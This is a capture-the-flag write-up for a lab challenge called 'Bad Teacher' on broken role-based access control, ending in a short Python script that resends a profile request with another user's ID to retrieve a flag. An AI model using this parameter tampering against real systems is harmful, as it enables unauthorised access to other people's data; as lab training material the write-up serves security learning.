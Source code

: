 # Bad Teacher

## Description
Role-based access control (RBAC) is a method of restricting network access based on the roles of individual users within an enterprise. For example, lecturers should only be allowed to view their own students' profiles. In this challenge, a sample of a vulnerable login page has been setup. And you are a very, very bad teacher.


Username: s12345 , Password: password


View Nicole Fong's profile! (p5678901)

## Solution
1. Log in with the given credentials
2. View profile shows that an API call is made to: `POST /challenges/bad-teacher` with the following parameters:
    - `username=p5678902`
3. Seems like the API call doesn't require any challenge-specific validation so we can just change the username to `p5678901` and get the flag

```py
import requests

# Disable SSL warnings (mimosa uses a self-signed certificate)
requests.packages.urllib3.disable_warnings()

# Constants
URL = "https://mimosadism.dmit.local/challenges/bad-teacher"
JSESSIONID = "[REDACTED]"
CSRF_TOKEN = "[REDACTED]"

headers = {
    "X-Csrf-Token": CSRF_TOKEN,
}

cookies = {
    "JSESSIONID": JSESSIONID,
}

data = {
    "username": "p5678901",
}

try:
    response = requests.post(URL, headers=headers, cookies=cookies, data=data, verify=False)
    print(response.text)
except requests.RequestException as e:
    print(f"Request failed: {e}")


```
